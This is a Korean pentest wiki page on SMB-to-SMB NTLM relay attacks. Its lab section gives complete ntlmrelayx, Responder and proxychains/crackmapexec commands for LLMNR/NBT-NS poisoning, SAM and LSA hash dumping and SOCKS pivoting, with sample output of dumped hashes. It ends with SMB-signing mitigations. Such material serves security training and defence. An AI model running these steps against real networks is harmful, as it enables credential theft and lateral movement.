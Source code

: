 # SMB to SMB

### **SMB to SMB 릴레이**&#x20;

LLMNR/NBT-NS, MITM6, 강제 인증 등으로 통해 들어오는 SMB 기반 인증 트래픽을 다른 SMB 서비스에게 릴레이하는 공격이다. 이 릴레이 공격을 바탕으로 타겟 호스트의 SAM 데이터베이스를 덤프하거나, SOCKS Proxy를 구축하거나, 원격 코드를 실행할 수 있다.&#x20;

NTLM 릴레이 공격을 하려면 3개의 구성요소가 필요하다.&#x20;

1. 릴레이 호스트 - 사용자 인증 트래픽을 공격자 호스트에게 보내는, 릴레이를 "할" 호스트&#x20;
2. 공격자 호스 - 중간자 포지션에서 릴레이 공격을 실행하는 호스트&#x20;
3. 타겟 호스트 - 공격자로부터 릴레이 호스트의 트래픽을 받는, 릴레이 공격을 "당할" 호스트. SMB Signing 이 비활성화 되어 있어야 릴레이가 가능하다. &#x20;



SMB to SMB 릴레이 때는 트리거된 인증 트래픽의 유저가 타겟 호스트의 로컬 관리자 (Local Administrator) 권한을 갖고 있어야 유용한 정보를 얻을 때가 많다. 따라서 머신 계정의 인증 트래픽을 받는 강제 인증을 트리거로 사용하면 SMB to SMB 릴레이는 큰 도움이 안될때가 많다. 머신 계정은 특별한 설정이 있지 않는 한 로컬 관리자 권한이 없기 때문이다.&#x20;

* **예 - 성공)** 도메인 어드민이 트리거한 LLMNR/NBT-NS 포이즈닝 -> 릴레이 -> 타겟 호스트의 SAM Dump  성공. 도메인 어드민은 왠만한 타겟 호스트들의 로컬 관리자 권한을 갖고 있기 때문.&#x20;
* **예 - 실패)** 도메인 컨트롤러의 Petitpotam 을 이용한 강제 인증 트리거 -> 릴레이 -> 타겟 호스트의 SAM Dump 실패. 도메인 컨트롤러의 머신 계정은 타겟 호스트의 로컬 관리자 권한이 없기 때문.&#x20;
* **예 - 성공)** 타겟 호스트의 로컬 관리자 권한을 갖고 있는 도메인 유저 계정이 트리거한 LLMNR/NBT-NS 포이즈닝 -> 릴레이 -> 타겟 호스트의 SAM Dump 성공!&#x20;



### 실습&#x20;

NTLM 릴레이 공격은 다음과 같은 순서로 이뤄진다.&#x20;

1. SMB Signing 이 비활화 되어 있는 타겟 호스트를 찾는다.
2. LLMNR/NBT-NS, 강제 인증, MITM6 등의 방법으로 릴레이 공격을 시작한다.&#x20;
3. `Ntlmrelayx` 등의 툴을 써서 들어오는 인증 트래픽을 #1 에서 찾은 타겟호스트들로 릴레이 공격을 한다. 공격 방법은 다음과 같다:&#x20;
   1. SAM 데이터베이스 덤프 - `ntlmrelayx` 의 기본적인 공격이다. &#x20;
   2. SOCKS proxy - SOCKS 프록시를 구축한다.&#x20;
   3. ADCS - ADCS 관련 공격을 시도해 인증서 등을 발급받는다.&#x20;
   4. Command Execution - 명령어를 실행한다.

#### 1. SMB Signing 비활성화 되어 있는 호스트 찾기&#x20;

릴레이 공격에 앞서 SMB Signing 이 비활성화 되어 있는 타겟 호스트들을 찾는다.&#x20;

```
# SMB Signing 비활성화 호스트 찾기 
cme smb <file/CIDR/target> --gen-relay relay.txt 

# 예시 
cme smb 192.168.40.150/26 --gen-relay relay.txt
SMB         192.168.40.151  445    WKSTN01          [*] Windows 10.0 Build 19041 x64 (name:WKSTN01) (domain:choi.local) (signing:False) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
```



#### 2-1. LLMNR/NBT-NS 포이즈닝 + SMB to SMB 릴레이 공격 - SAM Dump&#x20;

위에서 `192.168.40.151` 호스트의 `SMB Signing: False` 설정을 확인했다. 이를 바탕으로 LLMNR/NBT-NS 포이즈닝 + SMB to SMB 릴레이 공격을 시도한다.&#x20;

```
# 1. ntlmrelayx 세팅
python3 ntlmrelayx.py -tf <relay-file> -smb2support 
python3 ntlmrelayx.py -tf ~/relay.txt -smb2support 

# 2. Responder 세팅 
responder -I <NIC> -v 
responder -I eth1 -v 

# 3. < LLMNR / NBT-NS 트리거 - 실습에서는 explorer에서 존재하지 않은 호스트 검색 > 

# Responder 출력 
[*] [MDNS] Poisoned answer sent to ::ffff:192.168.40.150 for name wronghosts.local
[*] [LLMNR]  Poisoned answer sent to ::ffff:192.168.40.150 for name wronghosts

# ntlmrelayx 의 SAM Dump 출력 
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[*] SMBD-Thread-7 (process_request_thread): Connection from CHOI/ADMINISTRATOR@192.168.40.150 controlled, but there are no more targets left!
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:a819c0c224c4e483fe3b5a0df7eb87d8:::
backdoor:1002:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Done dumping SAM hashes for host: 192.168.40.151
```



#### 2-2. LLMNR/NBT-NS 포이즈닝 + SMB to SMB 릴레이 공격 - SOCKS 프록시&#x20;

```
# 1. ntlmrelayx 세팅
python3 ntlmrelayx.py -tf <relay-file> -smb2support 
python3 ntlmrelayx.py -tf ~/relay.txt -smb2support 

# 2. Responder 세팅 
responder -I <NIC> -v 
responder -I eth1 -v 

# 3. < LLMNR / NBT-NS 트리거 - 실습에서는 explorer에서 존재하지 않은 호스트 검색 > 

# ntlmrelayx SOCKS 프록시 출력 
[*] SMBD-Thread-9 (process_request_thread): Connection from CHOI/ADMINISTRATOR@192.168.40.150 controlled, attacking target smb://192.168.40.151
[*] Authenticating against smb://192.168.40.151 as CHOI/ADMINISTRATOR SUCCEED
[*] SOCKS: Adding CHOI/ADMINISTRATOR@192.168.40.151(445) to active SOCKS connection. Enjoy

ntlmrelayx> socks
Protocol  Target          Username            AdminStatus  Port 
--------  --------------  ------------------  -----------  ----
SMB       192.168.40.151  CHOI/ADMINISTRATOR  TRUE         445

# 4. proxychain 을 이용해 위에서 얻은 프록시로 명령어 실행 
proxychains crackmapexec smb 192.168.40.151 -u ADMINISTRATOR -p '' -d CHOI          

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.40.151:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.40.151:135 <--denied
SMB         192.168.40.151  445    WKSTN01          [*] Windows 10.0 Build 19041 (name:WKSTN01) (domain:CHOI) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.40.151:445  ...  OK
SMB         192.168.40.151  445    WKSTN01          [+] CHOI\ADMINISTRATOR: (Pwn3d!)

# 5. proxychains + cme 콤보 (SAM 덤프, LSA 덤프, share) 
proxychains crackmapexec smb 192.168.40.151 -u ADMINISTRATOR -p '' -d CHOI --sam 
proxychains crackmapexec smb 192.168.40.151 -u ADMINISTRATOR -p '' -d CHOI --lsa 
```

SOCKS 프록시를 이용할 때는 주의할 점은 다음과 같다: &#x20;

1. `/etc/proxychains4.conf` 파일의 끝에 `[ProxyList]`내용을 ntlmrelayx의 기본 SOCKS 프록시 포트인 1080으로 설정해준다.&#x20;
2. proxychains <명령어> 를 사용 할 때는 alias 를 사용할 수 없다. 이전까지 `cme` 를 이용했다면, `proxychains` 를 이용할 때는 `proxychains crackmapexec` 이라고 다 쳐주자.&#x20;
3. proxychains + crackmapexec 을 이용할 때는 유저 이름과 도메인을 ntlmrelayx 에 나온 그대로 설정해준다. ntlmrelayx 에서 `CHOI/ADMINISTRATOR` 로 나왔으니, crackmapexec 도 유저이름은 `ADMINISTRATOR`, 도메인은 `CHOI` 로 설정한다.

```
# /etc/proxychains4.conf 파일에 127.0.0.1 1080 추가 
 
[ProxyList]
# add proxy here ..
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks4 127.0.0.1 1080
```



### 대응 방안&#x20;

* SMB Signing 을 활성화 시켜준다. 윈도우 서버에서는 기본적으로 활성화 되어 있지만, 하위 호환성이나 다른 이유 때문에 비활성화 되어 있는 경우도 있다.
* `Computer Configuration\Policies\Windows Settings\Security Settings\Local Policies\Security Options\Microsoft network server: Digitally Sign communications (always)` 를 활성화 한다.&#x20;
* `Computer Configuration\Policies\Windows Settings\Security Settings\Local Policies\Security Options\Microsoft network server: Digitally Sign communications (if client agrees)` 를 활성화 한다.&#x20;

![](<../../.gitbook/assets/image (10) (2).png>)



### 레퍼런스&#x20;

{% embed url="https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/" %}

{% embed url="https://www.secureauth.com/blog/playing-with-relayed-credentials/" %}

{% embed url="https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/" %}
